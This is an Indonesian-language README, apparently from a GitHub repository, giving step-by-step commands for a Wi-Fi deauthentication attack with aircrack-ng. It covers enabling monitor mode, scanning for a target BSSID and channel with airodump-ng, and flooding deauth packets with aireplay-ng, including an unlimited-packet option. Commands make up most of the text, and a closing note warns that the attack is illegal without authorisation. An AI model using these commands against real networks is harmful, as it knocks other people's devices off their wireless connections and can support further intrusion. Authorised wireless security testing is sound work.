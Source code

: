 ![English](README.md)/Bahasa
# Deauthentication Attack dengan `aircrack-ng` di Linux

Berikut panduan dasar untuk melakukan serangan deauth menggunakan `aircrack-ng` pada sistem berbasis Ubuntu/Debian (mungkin identik pada sistem lain):

---

## Prasyaat

- Kartu Jaringan yang support mode monitor dan packet injection (contoh: Atheros AR9565)
- `aircrack-ng` terpasang, jika belum:
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Langkah-langkah

1. **Buka Terminal**: Tekan `Ctrl + Alt + T` untuk membuka terminal.

2. **Periksa Antarmuka Jaringan**: Cek nama antarmuka jaringanmu (contoh: wlan0, wlp3s0), gunakan perintah:
   
    ```bash
    iwconfig
    ```

3. **Masukkan Antarmuka jaringan ke mode monitor**: Pakai `airmon-ng`. Ganti `wlan0` dengan nama antarmuka jaringanmu:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    Mungkin airmon-ng akan mengganti nama antarmukamu (contoh: `wlan0mon`, `wlp3s0mon`).

4. **Cek Ulang Nama Antarmuka Jaringan**: Gunakan kembali `iwconfig`:

   ```bash
   iwconfig
   ```
   Cek apakah nama antarmuka berubah (contoh: `wlan0mon` `wlp3s0mon`).

5. **Pidai Jaringan}**: Gunakan `airodump-ng` untuk memindai jaringan sekitar dan catat channel dan BSSID (alamat MAC) target:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   Ini akan memindai jaringan di semua channel. Tekan `Ctrl+C` untuk berhenti.

6. **Pindai Jaringan Target**: Setelah channel target diketahui, pakai `--channel` dan pindai ulang.
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Gantu `1` dengan channel targetmu.

7. **Jalankan Serangan Deauthentication**: Buka terminal baru dan lakukan serangan dengan:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Ganti `<BSSID>` dengan BSSID target.

   `-0` diperlukan untuk deauthentication.\
   `5` adalah jumlah berapa kali paket deauth dikirimkan. Atur sesuai kebutuhan. `0` berarti tanpa batas.

8. **Pantau AKtiviats**: Kembali ke layar `airodump-ng`. perangkat yang terputus dan mencoba menyambung ulang harusnya terlihat.

9. **Matikan Mode Monitor**: Setelah selesai, matikan mode monitor dengan:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Ganti `wlan0mon` dengan nama antarmuka jaringanmu jika berbeda.

## Catatan!!
- **Peringatan**: Serangan deauthentication dapat menjadi ilegal jika dilakukan tanpa otorisas yang tepat. Pastikan Anda memiliki izin sebelum melakukan pengujian tersebut.
- Gunakan secara bijak dan di lingkungan terkontrol.
- Perhatikan hukum dan peraturan yang terkait dengan keamanan jaringan nirkabel di wilayah Anda
